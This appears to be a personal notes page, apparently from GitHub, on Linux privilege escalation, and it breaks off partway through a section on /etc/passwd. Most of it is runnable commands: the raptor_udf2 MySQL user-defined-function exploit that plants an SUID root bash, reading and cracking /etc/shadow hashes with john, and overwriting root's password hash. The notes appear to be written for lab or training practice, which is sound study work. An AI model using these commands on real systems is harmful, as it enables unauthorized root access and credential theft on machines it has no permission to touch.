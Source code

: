 #Linux Privlage Escalation
### Service Exploits
- https://www.exploit-db.com/exploits/1518
- The mysql service is running as root and the 'root' user for the service does not have a password assigned or the password is known. This exploit takes advantage of the User Defined Functions (UFDs) to run system commands as root via the mysql service.
- Change into the `/home/user/tools/mysql-udf` directory.
`cd /home/user/tools/mysql-udf`
- Compile the raptor_udf2.c exploit code using the following
`gcc -g -c raptor_udf2.c -fPIC`
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`
- Connect to the mysql service as the root user with a blank or known password.
`mysql -u root`
- Execute the following commands on the mysql shell to create a udf "do_system" using the compiled exploit
```
use mysql;
create table foo(line blob);
insert into foo values (load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
- Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission
`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`
- Exit out of the mysql shell
`\q`
- Run /tmp/rootbash with -p to gain a root shell
`/tmp/rootbash -p`

### Weak File Permissions - Readable /etc/shadow
`ls -l /etc/shadow`
`cat /etc/shadow`
- A users password hash (if they have one) can be found between the first and second (:) of each line.
- Save the root user's hash to a file called hash.txt on your kali machine and use john to crack it.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
- Switch to the root user
`su root`
### Weak File Permissions - Writeable /etc/shadow
`ls -l /etc/shadow`
- Generate a new password hash
`mkpasswd -m sha-512 jackiscool`
- Edit /etc/shadow and replace origional root user's password hash with the one that you just created
- Switch to the root user
`su root`
### Weak File Permissions - Writable /etc/passwd
- The /etc/passwd file contained user password hashes, and some versions of Linux still allow password hashes to be stored there
- 
